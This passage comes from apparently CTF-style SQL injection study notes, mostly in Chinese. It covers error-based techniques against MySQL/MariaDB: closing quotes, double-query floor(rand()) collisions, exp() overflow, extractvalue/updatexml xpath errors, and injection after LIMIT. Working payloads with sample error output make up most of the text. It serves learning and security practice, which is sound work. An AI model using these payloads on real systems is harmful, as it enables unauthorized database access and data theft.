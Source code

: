 ```python
           print flag
           break
        print d
print flag
```

### Error based
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
看到**near**和**at**的字眼，我們可以刪除左右的單引號，剩下的sql語句應是: ```'  2'  ') LIMIT 0,1```  
因此，注入語句應該是: ```') or 1=1--+```  
* Double injection 
```sql
/**
we need:
count()            // Important* 分組語句多要跟聚合語句配合才能回傳數據列
concat()            // error會把碰撞的主鍵吐出來，因此我們需要把key跟查詢對象concat在一起
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
// 當我們清楚原理之後，也可以改成:
?id = 1' or 1=1 group by concat(database(),floor(rand()*2)) having min(0)--+
```
```floor(rand()x2)``` 為穩定序列，造成```group by key```的碰撞! (非常推薦以下文章
[The recommended aticle](http://dogewatch.github.io/2017/02/27/mysql-Error-Based-Injection/)  
* Interger Overflow  
```exp()```在sql版本大於5.5.5時才會有error  
```sql
exp(~(select*from(select user())a));  // 內部查詢結果為0, 經過逐位取反(~)後得到的是18446744073709551615,然而exp(710)就會溢出!
// 後面的a ? 是alias, select*from 後再做子查詢需要給他別名
```
```select```回傳結果也可以用於計算，查詢成功->0，失敗->1 (非常重要!  
[The recommended article](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%95%B4%E5%BD%A2%E6%BA%A2%E5%87%BA%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86/)  
* xpath syntax error  
```extractvalue()```,```updatexml()```諸如此類函數可以對user指定xml語法做查詢語修改  
```sql
?id=1" or/and select updatexml(1,concat(1,(select user()),0x7e),1);
?id=1" or/and select extractvalue(1,concat(1,(select database()),0x7e));
?id=1" or/and select extractvalue(rand(),concat(0x3a,@@basedir))#
// 由於中間xml語法錯誤，會將database()結果顯示於錯誤訊息

and extracvalue(rand(),concat(0x3a,(select schema_name from information_schema.schemata limit 0,1))#
where table_schema=0xXXXXX

// 奇技淫巧
// 若注入點在limit後面 e.g. order by name limit {$_GET[1]}, 10
?1=select id from users where id>5 order by name limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
// ERROR 1105 (HY000): XPATH syntax error: ':10.1.26-MariaDB'
```
